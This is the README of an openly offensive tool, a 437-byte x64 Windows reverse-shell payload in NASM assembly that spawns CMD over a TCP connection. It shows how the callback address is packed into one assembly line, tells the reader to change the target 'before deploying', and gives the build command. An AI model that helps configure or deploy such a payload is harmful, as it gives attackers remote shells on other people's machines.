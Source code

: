 # 'Vzorvat' - x64 Windows Reverse Shell

A position-independent, null-free x64 reverse shell payload for Windows systems, written in assembly (437 Bytes & NASM Syntax).

## Overview

'Vzorvat' is a lightweight assembly-based reverse shell that creates a TCP connection, then spawns CMD with redirected standard I/O.  
It uses a custom API hashing technique to dynamically resolve Windows API functions; it handles ASLR gracefully.

## Features

- **Position Independent Code (PIC)**
- **Null-free**
- **API Resolution via ROR-13 Algo**
- **Small Footprint**: Minimal code size for efficient delivery

## Technical Details

### Connection Configuration

The socket connection is configured in the SOCKADDR_IN structure:
```assembly
mov r12, 0x0100007f611e0002 ; Format: sin_family, sin_port, sin_addr
```

Default configuration connects to 127.0.0.1 (localhost) on port 7777 (0x1e61).
Before deploying, modify the target address in the payload.

The IP and port are encoded as:
- Format: `[2 bytes: AF_INET][2 bytes: PORT][4 bytes: IPv4]`
- Example: `0x0100007f611e0002` *= AF_INET(2) + Port 7777 (0x1e61) + IP 127.0.0.1 (0x0100007f)*

### Assembling the Payload

```bash
nasm -f bin -o vzorvat.bin vzorvat.asm
```
